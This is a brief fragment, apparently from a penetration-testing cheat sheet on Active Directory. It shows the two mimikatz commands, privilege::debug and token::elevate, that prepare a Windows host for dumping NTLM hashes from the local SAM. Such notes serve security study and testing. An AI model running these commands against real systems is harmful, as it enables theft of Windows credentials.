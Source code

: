 # Active Directory

NTLM hashes from local SAM.

`mimikatz # privilege::debug
mimikatz # token::elevate`
